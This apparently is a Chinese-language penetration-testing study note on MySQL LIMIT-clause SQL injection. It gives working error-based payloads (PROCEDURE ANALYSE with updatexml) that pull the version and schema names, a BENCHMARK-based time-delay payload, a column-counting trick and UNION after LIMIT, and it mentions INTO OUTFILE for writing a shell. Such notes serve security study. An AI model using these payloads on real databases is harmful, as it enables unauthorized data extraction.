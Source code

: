 
## limit注入

1. 有`order by`

mysql中`union`不能在`order by`后面,且一个语句中不能出现多次`order by`

[Mysql下Limit注入方法](https://www.leavesongs.com/PENETRATION/sql-injections-in-mysql-limit-clause.html)

[SQL注入：limit注入](https://lyiang.wordpress.com/2015/10/25/sql%E6%B3%A8%E5%85%A5%EF%BC%9Alimit%E6%B3%A8%E5%85%A5/)

以`limit`结尾的sql语句,后面可以接`procedure`或者`into outfile`

`into outfile`主要用来写shell,此处注重应是通过`procedure`读取数据

`procedure`后面接`analyse`,其中要填充两个参数,此处可以利用报错注入或者延时注入

```
mysql root@localhost:mysql> select * from user order by host limit 0,1 procedure analyse(updatexml(1,concat(0x7e,version(),0x7e),1),1);
(1105, "XPATH syntax error: '~5.5.44~'")
mysql root@localhost:mysql> select * from user order by host limit 0,1 procedure analyse(updatexml(1,concat(0x7e,(select group_concat(schema_name) from information_schema.schemata),0x7e),1),1);
(1105, "XPATH syntax error: '~information_schema,mysql,perfor'")
```

延时注入,这里不能用`sleep`

`select * from user order by host limit 0,1 PROCEDURE analyse(updatexml(1,IF((select mid(user(),1,1)='r'),BENCHMARK(100000000,1+1),1),1),1)`

---

>判断列数,未验证版本范围

`select * from test.users order by 1 limit 0,1 into @a,@b,@c,@d;`

当列数与`@`的数量相同时,sql语句才能够正常执行,利用这一点可以获取列的数量

![](https://img.mi3aka.eu.org/2022/09/9f496313d87adf9e9e6074bb664d5acd.png)

2. 无`order by`

直接用`union`即可,存在版本限制(未验证版本范围)

```
mysql root@localhost:mysql> select @@version;
+-----------+
| @@version |
+-----------+
| 5.5.47    |
+-----------+
1 row in set
Time: 0.008s
mysql root@localhost:mysql> select host from user limit 0,1 union select user from user;
+------+
| host |
+------+
| %    |
| root |
+------+
2 rows in set
Time: 0.009s
```
